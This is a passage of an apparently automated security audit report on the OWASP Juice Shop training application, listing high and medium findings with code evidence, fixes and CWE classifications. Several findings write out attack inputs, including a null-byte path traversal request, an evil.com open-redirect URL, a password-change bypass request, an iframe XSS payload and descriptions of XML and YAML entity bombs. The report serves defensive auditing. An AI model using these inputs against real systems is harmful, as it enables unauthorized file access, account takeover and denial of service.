**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Third-party GitHub Actions pinned commit

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/codeql-analysis.yml`:23

**Issue:** Third-party GitHub Actions pinned to commit SHA - .github/workflows/codeql-analysis.yml:23 Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

**Evidence:** ✓ verified

```yaml
// .github/workflows/codeql-analysis.yml:23
      uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
```

**Fix:** ❷ [M-049](#m-049) — Third-party GitHub Actions pinned to commit SHA

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Org-Admin Token Exposed pull_request_target Context

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/pr-compliance.yml`:438

**Issue:** The `pr-compliance.yml` workflow is triggered by `pull_request_target` - a privileged trigger that runs in the base repository context with access to secrets. The 'Block Spammer' step at line 433 injects `ORG_ADMIN_TOKEN` into `process.env` within a `github-script` step. A fork PR attacker (ACT-X-2) cannot currently execute arbitrary code because no `actions/checkout` step checks out fork content. An attacker who achieves code execution in this workflow context obtains an org-admin token capable of blocking any GitHub user from the juice-shop organisation, disrupting all maintainer and contributor operations.

**Evidence:** ✓ verified - `ORG_ADMIN_TOKEN` is loaded from `process.env` inside a `pull_request_target`-triggered workflow at line 443, making it accessible in the most permissive CI context for fork PRs.

```yaml
// .github/workflows/pr-compliance.yml:438
        env:
          AUTHOR: ${{ steps.init.outputs.author }}
          ORG_ADMIN_TOKEN: ${{ secrets.ORG_ADMIN_TOKEN }}
        with:
          script: |
```

**Fix:** ❸ [M-029](#m-029) — Manual review: verify Org-Admin Token Exposed in pull_request_target Context at .github/workflows/pr-compliance.yml:438

**Classification:** Supply-Chain Integrity · [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Path Traversal

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - File Upload Service  ·  **Location:** `routes/fileServer.ts`:28

**Issue:** The `servePublicFiles` handler allows only `.md` and `.pdf` extensions via `endsWithAllowlistedFileType`. An attacker requests `GET /ftp/package.json.bak%2500.md`. The raw `file` parameter is `package.json.bak%2500.md` which ends with `.md` - the allowlist check at line 27 passes. Unauthenticated access to any file in the `ftp/` directory regardless of extension, including backup files, compiled Python, and KeePass databases containing credentials.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - The null-byte stripping function (`insecurity.ts:46`-51) is applied after the extension allowlist check (`fileServer.ts:27`), so the check sees a different filename than the one served.

```typescript
// routes/fileServer.ts:28
  function verify (file: string, res: Response, next: NextFunction) {
    if (file && (endsWithAllowlistedFileType(file) || (file === 'incident-support.kdbx'))) {
      file = security.cutOffPoisonNullByte(file)

      challengeUtils.solveIf(challenges.directoryListingChallenge, () => { return file.toLowerCase() === 'acquisitions.md' })
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❸ [M-031](#m-031) — Manual review: verify Null-byte injection bypasses extension allowlist to serve restricted FTP files at `routes/fileServer.ts:28`

**Classification:** Broken Access Control · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Directory Listing Exposure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:269

**Issue:** The express app mounts `serveIndex('ftp', { icons: true })` at `/ftp` without any authentication middleware. Any unauthenticated HTTP client visiting `GET /ftp/` receives a full directory listing of the `ftp/` folder. The listing includes `acquisitions.md` (business acquisition data), `package.json.bak` / `package-lock.json.bak` (dependency metadata enabling targeted vulnerability research), `incident-support.kdbx` (KeePass database), `encrypt.pyc` (compiled Python), and `suspicious_errors.yml`. Complete enumeration and download of all files in the FTP directory including business-sensitive documents and application backup files.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `serveIndex('ftp', { icons: true })` at `server.ts:269` is registered on a public route with no authentication guard - no `isAuthenticated` or JWT middleware precedes it.

```typescript
// server.ts:269
  // vuln-code-snippet start directoryListingChallenge accessLogDisclosureChallenge
  /* /ftp directory browsing and file download */ // vuln-code-snippet neutral-line directoryListingChallenge
  app.use('/ftp', serveIndexMiddleware, serveIndex('ftp', { icons: true })) // vuln-code-snippet vuln-line directoryListingChallenge
  app.use('/ftp(?!/quarantine)/:file', servePublicFiles()) // vuln-code-snippet vuln-line directoryListingChallenge
  app.use('/ftp/quarantine/:file', serveQuarantineFiles()) // vuln-code-snippet neutral-line directoryListingChallenge
```

**Fix:** ❸ [M-032](#m-032) — Manual review: verify Publicly exposed /ftp/ directory listing reveals sensitive internal files at server.ts:269

**Classification:** Broken Access Control · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Socket\.IO Real-Time Server  ·  **Location:** `lib/startup/registerWebsocketEvents.ts`:30

**Issue:** Any client - authenticated or not - can open a WebSocket connection to /socket.io without presenting credentials. Upon connection, the server immediately iterates `notifications` and emits every pending `challenge solved` notification to the new socket (lines 30-32). An attacker with no account can connect with a script (e.g. `wscat` or `socket.io-client`) and receive the complete list of solved challenges, their flag values, and associated notification payloads for all users currently in the application's in-memory notification store. Challenge flag data and completion status for all active sessions leaks to any unauthenticated observer connected to the WebSocket endpoint.

**Evidence:** ✓ verified - Line 30 unconditionally iterates `notifications` and emits each entry to every newly-connected socket with no session or token check at the connection handler.

```typescript
// lib/startup/registerWebsocketEvents.ts:30
    }

    notifications.forEach((notification: any) => {
      socket.emit('challenge solved', notification)
    })
```

**Fix:** ❸ [M-033](#m-033) — Manual review: verify Unauthenticated WebSocket broadcasts all challenge-solved notifications at `lib/startup/registerWebsocketEvents.ts:30`

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Allocation of Resources without Limits

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:645

**Issue:** POST `/b2b/v2/orders` is registered line 645 without any `rateLimit()` middleware. The handler spawns a `vm.runInContext()` call that runs up to 2 seconds of CPU per request. With a forged JWT (trivially obtained via the algorithm confusion vulnerability), an anonymous attacker can flood the endpoint at, for example, 50 concurrent requests, each consuming 2 seconds of event-loop CPU time. The application becomes unresponsive to all users for the duration of the flood attack, creating sustained service outages proportional to the attacker's request rate.

**Evidence:** ✓ verified - `Server.ts` registers `/b2b/v2/orders` (line 645) with no `rateLimit()` middleware, while the handler runs a `vm.runInContext` with a 2-second timeout that blocks the event loop for each request.

```typescript
// server.ts:645

  /* B2B Order API */
  app.post('/b2b/v2/orders', b2bOrder())

  /* File Serving */
```

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-034](#m-034) — Manual review: verify Missing Rate Limit on CPU-Bound Sandbox Endpoint at server.ts:645

**Classification:** Denial of Service · [CWE-770](https://cwe.mitre.org/data/definitions/770.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:343

**Issue:** `server.ts` applies `express-rate-limit` only to `/rest/user/reset-password` (line 343), `/rest/2fa/verify` (line 458), `/rest/2fa/setup` (line 465), and `/rest/2fa/disable` (line 471). The primary login endpoint POST `/rest/user/login` has no rate limit. An anonymous attacker can submit thousands of login attempts per second. Unlimited online brute force against any user account, or DoS via deliberate account lockout flooding (if lockout is added later without rate limiting the trigger).

**Evidence:** ✓ verified - `server.ts` has `rateLimit` applied to password-reset and 2FA routes but no equivalent middleware registered for `POST /rest/user/login`.

```typescript
// server.ts:343
  /* Rate limiting */
  app.enable('trust proxy')
  app.use('/rest/user/reset-password', rateLimit({
    windowMs: 5 * 60 * 1000,
    max: 100,
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❸ [M-035](#m-035) — Manual review: verify Missing Rate Limit on Login Endpoint at server.ts:343

**Classification:** Denial of Service · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/fileUpload.ts`:83

**Issue:** Calls `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` where `data` is the content of an attacker-uploaded XML file. The `noent: true` option instructs libxmljs2 to resolve XML external entities and expand entity references. A Billion Laughs payload (10 levels of entity expansion, each referencing 10 copies of the previous) causes exponential string expansion in memory before the parser returns. `Node.js` process crash or extended unavailability due to memory exhaustion from a crafted XML entity bomb submitted by an anonymous attacker.

**Evidence:** ✓ verified - `routes/fileUpload.ts:83` passes `{ noent: true }` to `libxml.parseXml()`, enabling unlimited entity expansion from an unauthenticated file upload.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-036](#m-036) — Manual review: verify XML Entity Expansion DoS in File Upload at `routes/fileUpload.ts:83`

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - File Upload Service  ·  **Location:** `routes/fileUpload.ts`:117

**Issue:** An attacker submits a YAML bomb (deeply nested YAML aliases) to `POST /file-upload` with a `.yaml` extension. The handler calls `yaml.load(data)` inside a `vm.runInContext()` with a 2-second timeout. With js-yaml v3, the `yaml.load()` call expands aliases during parsing, which can consume gigabytes of heap before the VM timeout fires. Repeated upload of bomb payloads can cause OOM or CPU exhaustion, taking the `Node.js` server offline for all users.

**Evidence:** ✓ verified - `yaml.load(data)` (js-yaml v3) at line 117 and `libxml.parseXml(data, { noent: true })` at line 83 perform unbounded parsing of attacker-supplied content with no pre-parse size or complexity limits; no rate limit protects the endpoint.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-037](#m-037) — Manual review: verify YAML bomb and XML billion-laughs cause CPU/memory exhaustion on upload endpoint at `routes/fileUpload.ts:117`

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Socket\.IO Real-Time Server  ·  **Location:** `lib/startup/registerWebsocketEvents.ts`:20

**Issue:** The Socket\.IO server is instantiated at line 20 with only a CORS origin restriction and no connection-count cap, rate limiting, or upgrade throttle. An anonymous attacker can open thousands of simultaneous WebSocket connections from a single IP or distributed botnet. Each new connection triggers the `notifications.forEach` loop (line 30) - if the notification array is large, this loop executes once per new connection, creating a linear amplification factor. Sustained WebSocket connection flood exhausts server file descriptors and event-loop capacity, causing full service denial for all HTTP and WebSocket clients.

**Evidence:** ✓ verified - Line 20 constructs the Socket\.IO Server with no `maxHttpBufferSize`, `connectTimeout`, or per-IP connection throttle; line 30 executes an unbounded `forEach` on every new connection.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-038](#m-038) — Manual review: verify No connection rate limit on Socket\.IO upgrade endpoint at `lib/startup/registerWebsocketEvents.ts:20`

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Improper Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:604

**Issue:** `server.ts:604-605` registers `GET /rest/admin/application-version` and `GET /rest/admin/application-configuration` without any `security.isAuthorized()` guard. These endpoints expose the full application configuration object (from the `config` npm package), which includes the application domain, security contact details, server base URL, and potentially any secrets loaded via `config/`. An anonymous attacker sending `GET /rest/admin/application-configuration` receives the full configuration JSON, which may disclose internal hostnames, API keys, or feature flags that reduce the difficulty of other attacks. Exposure of full application configuration to unauthenticated actors, disclosing internal topology, secret contact addresses, and feature flag states.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `server.ts:604`-605 registers two `/rest/admin/*` GET handlers with no preceding `security.isAuthorized()` or role-check middleware.

```typescript
// server.ts:604
  app.post('/rest/basket/:id/checkout', placeOrder())
  app.put('/rest/basket/:id/coupon/:coupon', applyCoupon())
  app.get('/rest/admin/application-version', retrieveAppVersion())
  app.get('/rest/admin/application-configuration', retrieveAppConfiguration())
  app.get('/rest/repeat-notification', repeatNotification())
```

**Fix:** Add explicit server-side authorisation checks on every protected route → ❸ [M-039](#m-039) — Manual review: verify Unauthenticated Admin Configuration Endpoints at server.ts:604

**Classification:** Broken Access Control · [CWE-285](https://cwe.mitre.org/data/definitions/285.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Weak Password Recovery Mechanism

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/changePassword.ts`:39

**Issue:** `routes/changePassword.ts:39` checks `if (currentPassword && security.hash(currentPassword) !== loggedInUser.data.password)` - the condition only validates the current password when it is provided. If `currentPassword` is absent (or empty), the block is skipped entirely and the new password is set unconditionally. An attacker with a valid session token (obtained via XSS, token theft, or session fixation) can change the victim's password to a new value by omitting the `current` query parameter: `GET /rest/user/change-password?new=attacker&repeat=attacker`. An attacker with a stolen JWT or session cookie can permanently change the victim's password and lock them out of their account.

**Evidence:** ✓ verified - `routes/changePassword.ts:39` uses `if (currentPassword && ...)` - a falsy `currentPassword` (absent or empty string) short-circuits the check, allowing password change without verification.

```typescript
// routes/changePassword.ts:39
    }

    if (currentPassword && security.hash(currentPassword) !== loggedInUser.data.password) {
      res.status(401).send(res.__('Current password is not correct.'))
      return
```

**Fix:** ❸ [M-040](#m-040) — Manual review: verify Password Change Bypass Without Current Password at `routes/changePassword.ts:39`

**Classification:** Broken Access Control · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:310

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❷ [M-054](#m-054) — Add an explicit auth middleware (isAuthorized() / passport.authenticate() / requireAuth) to the route registration, or mark the route intentionally public via `app.get`(...) for read-only access only.

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular Frontend SPA  ·  **Location:** `frontend/src/app/app.guard.ts`:52

**Issue:** `AdminGuard.canActivate()` at lines 52-60 decodes the JWT payload client-side using `jwtDecode()` and checks `payload.data.role === roles.admin`. This check is enforced only in the Angular router - it prevents the admin route from rendering in the browser, but it does not prevent direct API calls to admin-only backend endpoints. `jwtDecode()` does not verify the JWT signature; it only base64-decodes the payload. An authenticated low-privilege user can bypass the Angular admin guard by modifying the JWT payload locally, gaining access to admin UI components and triggering admin-only API calls.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `payload.data.role === roles.admin` at line 54 - `jwtDecode()` imported at line 7 explicitly does not verify signatures; the role check is read from the unverified payload.

```typescript
// frontend/src/app/app.guard.ts:52


  canActivate () {
    const payload = this.loginGuard.tokenDecode()
    if (payload?.data && payload.data.role === roles.admin) {
```

**Fix:** ❸ [M-041](#m-041) — Manual review: verify Client-Side-Only Admin Route Guard at `frontend/src/app/app.guard.ts:52`

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Socket\.IO Real-Time Server  ·  **Location:** `lib/startup/registerWebsocketEvents.ts`:41

**Issue:** The server registers three event handlers that process client-controlled data without validating the caller's identity. At line 41, any WebSocket client - without authentication - can emit `verifyLocalXssChallenge` with the expected XSS payload string `<iframe src="javascript:alert(\`xss\`)">` and cause `challengeUtils.solveIf()` to mark the `localXssChallenge` and `xssBonusChallenge` as solved in the application's shared challenge state. Similarly, at line 46, emitting `verifySvgInjectionChallenge` with a crafted URL matching the regex pattern marks `svgInjectionChallenge` as solved. Unauthenticated clients can artificially mark challenges as solved and expunge pending notifications from the shared in-memory store, corrupting application state for all users.

**Evidence:** ✓ verified - Lines 41-48 call `challengeUtils.solveIf()` directly on attacker-supplied socket event data with no authentication or session ownership check on the socket connection.

```typescript
// lib/startup/registerWebsocketEvents.ts:41
    })

    socket.on('verifyLocalXssChallenge', (data: any) => {
      challengeUtils.solveIf(challenges.localXssChallenge, () => { return utils.contains(data, '<iframe src="javascript:alert(`xss`)">') })
      challengeUtils.solveIf(challenges.xssBonusChallenge, () => { return utils.contains(data, config.get('challenges.xssBonusPayload')) })
```

**Fix:** ❸ [M-042](#m-042) — Manual review: verify Unauthenticated client events trigger server-side challenge solution state chan… at `lib/startup/registerWebsocketEvents.ts:41`

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Plaintext Payment Card Storage

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - SQLite Data Layer  ·  **Location:** `models/card.ts`:39

**Issue:** `models/card.ts:39` defines `cardNum` as `DataTypes.INTEGER` with no encryption, tokenization, or masking. The full 16-digit PAN is written to the Cards table in cleartext. Any actor with read access to the SQLite file or who exploits the SQL injection at `routes/search.ts:23` can retrieve all stored payment card numbers in cleartext. Full PAN exposure for all stored payment cards; constitutes a PCI-DSS Requirement 3 violation and triggers mandatory breach notification obligations.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `models/card.ts:39` maps `cardNum` to `DataTypes.INTEGER` - no `get()`/`set()` transformer, no encryption hook, no tokenization.

```typescript
// models/card.ts:39
      },
      fullName: DataTypes.STRING,
      cardNum: {
        type: DataTypes.INTEGER,
        validate: {
```

**Fix:** Encrypt the data in transit and at rest with vetted primitives → ❸ [M-030](#m-030) — Manual review: verify Plaintext Payment Card Storage at `models/card.ts:39`

**Classification:** Cryptographic Failures · [CWE-311](https://cwe.mitre.org/data/definitions/311.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Cross-Site Scripting

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-01](#c-01) - Angular Frontend SPA  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts`:132

**Issue:** The `trustProductDescription()` method at line 132 wraps every product description from the API response in `bypassSecurityTrustHtml()`. An attacker who modifies a product description (e.g., via the admin API endpoint `PUT /api/Products/:id` with an admin token, or via SQL injection in the backend) can inject persistent HTML into all search results pages for any product matching the search term. The injected payload executes for every user who searches for that product - a stored XSS affecting all authenticated users. Stored XSS in product descriptions executes for every visitor of the search results page, enabling mass session token exfiltration across all users.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)` at line 132 treats API-supplied product descriptions as safe HTML without any frontend validation.

```typescript
// frontend/src/app/search-result/search-result.component.ts:132
  trustProductDescription (tableData: any[]) { // vuln-code-snippet neutral-line restfulXssChallenge
    for (let i = 0; i < tableData.length; i++) { // vuln-code-snippet neutral-line restfulXssChallenge
      tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description) // vuln-code-snippet vuln-line restfulXssChallenge
    } // vuln-code-snippet neutral-line restfulXssChallenge
  } // vuln-code-snippet neutral-line restfulXssChallenge
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-023](#m-023) — Manual review: verify Stored XSS via Product Description Trust Bypass at `frontend/src/app/search-result/search-result.component.ts:132`

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (7)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Improper Verification of Cryptographic Signature

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml`:1

**Issue:** Container image signing via cosign or attest-build-provenance - .github/workflows/ci.yml:1 Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-044](#m-044) — Container image signing via cosign or attest-build-provenance

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Dockerfile Package Install Missing --ignore-scripts

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `Dockerfile`:1

**Issue:** Dockerfile npm/pnpm/yarn uses --ignore-scripts - Dockerfile:1 Without --ignore-scripts, any compromised dependency publisher can execute postinstall code at build time.

**Evidence:** ✓ verified

**Fix:** ❸ [M-045](#m-045) — Dockerfile npm/pnpm/yarn uses --ignore-scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · Dockerfile USER directive (non-root)

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `node_modules/getos/Dockerfile`:1

**Issue:** Dockerfile USER directive (non-root) - node_modules/getos/Dockerfile:1 Containers running as root expand container-escape blast radius.

**Evidence:** ✓ verified

**Fix:** ❸ [M-050](#m-050) — Dockerfile USER directive (non-root)

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Incorrect Permission Assignment

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/lock.yml`:1

**Issue:** GITHUB_TOKEN scope minimization - .github/workflows/lock.yml:1 `contents: read` at workflow root forces per-job opt-in for write scopes - minimal privilege by default.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified

**Fix:** ❸ [M-051](#m-051) — GITHUB_TOKEN scope minimization

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/search.ts`:23

**Issue:** The raw LIKE query at `routes/search.ts:23` has no query timeout, no row-count cap, and no index guarantee on the Products table text columns. An attacker submits a crafted payload (e.g., a long pattern causing full-table scan with expensive regex backtracking, or a UNION with many joined subqueries) that causes SQLite to hold the write lock for an extended period. Application write operations stall while the lock is held; sustained submissions can render the application unresponsive.

**Evidence:** ✓ verified - `routes/search.ts:23` issues `sequelize.query()` with user-supplied LIKE wildcards and no `timeout` option; `models/index.ts:36` sets `transactionType: IMMEDIATE` making all writes serialized.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-056](#m-056) — Add query timeout and result-set limit to the product search raw SQL call

**Classification:** Injection · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Cross-Site Scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Angular Frontend SPA  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts`:39

**Issue:** `last-login-ip.component.ts:39` decodes the JWT from localStorage and passes `payload.data.lastLoginIp` directly to `sanitizer.bypassSecurityTrustHtml('<small>' + lastLoginIp + '</small>')`. The `lastLoginIp` field is controlled by the server (it is written into the JWT on login) - if the backend records IP addresses without validation, an attacker who connects from a spoofed or injected IP string can embed HTML (e.g., ``) in the JWT's `lastLoginIp` claim. An attacker who can influence the `lastLoginIp` JWT field can inject persistent XSS that fires on the victim's next session, exfiltrating their new JWT token.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `bypassSecurityTrustHtml(\`<small>\${payload.data.lastLoginIp}</small>\`)` at line 39 embeds a server-supplied JWT claim directly into trusted HTML without any validation.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-055](#m-055) — Render lastLoginIp as textContent rather than trusted HTML in last-login-ip.component.ts

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · Open Redirect

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts`:138

**Issue:** `isRedirectAllowed` checks `url.includes(allowedUrl)` for each entry in the allowlist. An attacker constructs the URL `https://evil.com?return=https://github.com/juice-shop/juice-shop` - the query parameter value contains the allowed URL as a substring, so `url.includes('https://github.com/juice-shop/juice-shop')` returns `true`. Redirect to attacker-controlled phishing site under the cover of a legitimate Juice Shop URL, enabling credential harvesting from users who trust the originating domain.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `lib/insecurity.ts:138` uses `url.includes(allowedUrl)` which matches the allowed URL as a substring anywhere in the redirect target, not exclusively as a prefix.

**Fix:** ❸ [M-057](#m-057) — Replace url.includes() with exact-match or startsWith() in isRedirectAllowed

**Classification:** Broken Access Control · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

### 🟢 Low (1)

<a id="t-007"></a><a id="f-007"></a>
